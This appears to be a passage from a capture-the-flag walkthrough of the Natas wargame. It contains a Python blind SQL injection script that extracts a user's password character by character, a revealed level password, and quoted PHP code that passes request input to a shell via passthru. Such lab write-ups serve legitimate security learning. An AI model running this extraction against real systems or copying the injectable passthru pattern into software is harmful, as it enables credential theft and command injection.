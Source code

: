 ```python=
def check_condition(condition):
    # Create a payload that uses SQL injection to check our condition
    payload = {"username": f'natas16" AND {condition} #'}
    
    # Send the request with authentication
    response = requests.post(
        url,
        auth=(auth_username, auth_password),
        data=payload
    )
    
    # Check if the response contains "This user exists"
    return "This user exists" in response.text

# Extract the password
password = ""
password_length = 32  # We'll assume the password is 32 characters long

print("Starting password extraction...")

# Extract each character of the password
for position in range(1, password_length + 1):
    for char in chars:
        # Create a SQL condition that checks if the character at this position equals our guess
        condition = f"BINARY SUBSTRING((SELECT password FROM users WHERE username='{target_username}'), {position}, 1) = '{char}'"
        
        if check_condition(condition):
            password += char
            print(f"Found character at position {position}: {char}")
            print(f"Current password: {password}")
            break

print("\nExtraction complete!")
print(f"Password for {target_username}: {password}")
```

![image](https://hackmd.io/_uploads/B1_vV_BhJl.png)
The password for level 16: **hPkjKYviLQctEW33QmuXL6eDVfMW4sGo**

## Level 16
![image](https://hackmd.io/_uploads/Hy1Sqdr2Jg.png)
Find words containing again! 
The sourcecode:
```php=
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```